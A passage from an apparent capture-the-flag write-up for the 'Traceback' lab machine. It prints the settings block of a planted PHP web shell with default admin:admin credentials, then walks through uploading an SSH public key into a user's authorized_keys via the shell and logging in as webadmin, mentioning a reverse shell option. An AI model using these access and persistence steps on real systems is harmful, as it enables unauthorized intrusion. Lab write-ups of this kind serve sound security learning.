 ```php
*/ 
//Make your setting here. 
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin). 
$UserName = "admin";                                      //Your UserName here. 
$auth_pass = "admin";                                  //Your Password. 
//Change Shell Theme here// 
$color = "#8B008B";                                   //Fonts color modify here. 
$Theme = '#8B008B';                                    //Change border-color accoriding to your choice. 
$TabsColor = '#0E5061';                              //Change tabs color here. 
#-------------------------------------------------------------------------------
 ---SNIP---
```
With **admin:admin**, the login succeeded and the shell was presented with various options. With further enumeration, 
it was identified that we have write access to **/home/webadmin/.ssh**. A **SSH Key pair** was generated on the 
attacking host and the 
*public* key was copied onto a file *authorized_keys*. The same was uploaded to */home/webadmin/.ssh* using the 
**upload** option.

![SSH Entry Point](/assets/img/posts/traceback/sshEntry.png)

With the public key now authorized on the target, an SSH login as the user **webadmin** was carried out with the 
*private* key as follows.
```shell 
[_4m0r@manjaro Traceback]$ ssh -i id_rsa webadmin@10.10.10.181 
################################# 
-------- OWNED BY XH4H  --------- 
- I guess stuff could have been configured better ^^ - 
################################# 
 
Welcome to Xh4H land  
 
 
 
Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3 
webadmin@traceback:~$ 
```
> **SSH is not the only entry point. A reverse shell can be gained with the execute option on webshell.**
